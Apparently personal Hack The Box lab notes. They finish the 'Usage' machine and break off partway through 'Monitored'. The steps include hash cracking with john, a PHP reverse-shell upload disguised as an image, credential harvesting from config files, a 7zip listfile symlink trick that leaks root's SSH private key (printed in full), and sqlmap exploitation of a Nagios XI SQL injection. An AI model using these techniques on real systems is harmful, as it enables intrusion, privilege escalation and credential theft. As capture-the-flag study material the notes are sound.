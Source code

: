 ```
	(got: | 1  | Administrator | <blank> | $2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2 | admin    | 2023-08-13 02:48:26 | 2023-08-23 06:02:19 | kThXIKu7GhLpgwStz7fCFxjDomCYS1SmPpxwEkzv1Sdzva0qLYaDhllwrsLT |)
9. save "$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2" to hash.txt
10. Crack it using john: john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
11. exploit: https://flyd.uk/post/cve-2023-24249/
	(create php reverse shell, reverse.php, rename to reverse,jpg, burp intercept the upload, change name to reverse.php)
	(ref: https://www.revshells.com/)
12. get reverse shell of user: dash.
13. list opening ports: ss -tlpn
    list processes: ps -aux
    check file system table: cat /etc/fstab
	(find interesting process /usr/bin/monit)
14. run cmd: find / -name monit.service 2>/dev/null
15. find user "xander" pass in ~/.monitrc
16. sudo -l, find user can run elf /usr/bin/usage_management by root.
17. run it with sudo, the elf can:
	(1. bakup file to /var/backups/project.zip)
	(2. backup mysql to /var/backups/mysql_backup.sql)
	(3. Reset admin password)
18. static analysis of usage_management, found it uses:
	/usr/bin/7za a /var/backups/project.zip -tzip -snl -mmt -- *
	/usr/bin/mysqldump -A > /var/backups/mysql_backup.sql
	strings: chdir, /var/www/html (guess it will chdir to html folder and compress)
19. The @id_rsa file (also referred to as a listfile) tells 7zip that id_rsa contains a list of files to be compressed.
20. xander@usage:/var/www/html$ touch @id_rsa
21. xander@usage:/var/www/html$ ln -s /root/.ssh/id_rsa id_rsa
22. the usage_management will try to archieve each line in id_rsa as a file, the error message will leak the private key:
	-----BEGIN OPENSSH PRIVATE KEY----- : No more files
	b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW : No more files
	QyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3QAAAJAfwyJCH8Mi : No more files
	QgAAAAtzc2gtZWQyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3Q : No more files
	AAAEC63P+5DvKwuQtE4YOD4IEeqfSPszxqIL1Wx1IT31xsmrbSY6vosAdQzGif553PTtDs : No more files
	H2sfTWZeFDLGmqMhrqDdAAAACnJvb3RAdXNhZ2UBAgM= : No more files
	-----END OPENSSH PRIVATE KEY----- : No more files
23. copy the content to file "id_rsa123" on attacking machine. (remove error log " : No more files")
24. log in to machine: ssh -i ./root-rsa root@usage.htb
```


## HTB: Monitored 11 May 2024
Mostly https://www.exploit-db.com/exploits/44969
```
1. nmap found tcp 22,80,389,443,5667. udp: 123 ntp, 161 snmp.
2. snmp enumeration: snmpwalk -v 2c -c public nagios.monitored.htb
3. Found username and password in snmp Strings.
4. The found user is disabled.
5. https://support.nagios.com/forum/viewtopic.php?p=310411#p310411
  (login by api request, after getting token, using token to view the page)
  (curl -XPOST -k -L 'http://nagios.monitored.htb/nagiosxi/api/v1/authenticate' -d 'username=svc&password=XjH7VCehowpR1xZB&valid_min=5')
6. login by: /nagiosxi/index.php?token=<token>
7. find Nagios XI version 5.11.0. (CVE-2023-40931)
  (https://rootsecdev.medium.com/notes-from-the-field-exploiting-nagios-xi-sql-injection-cve-2023-40931-9d5dd6563f8c)
8. exploit by sqlmap: sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3" --batch -p id --cookie="nagiosxi=gmmapc26k5sr7pbm1emj9u4cmc" --dbs --threads=10
  (find 2 dbs, "nagiosxi" one is interesting)
```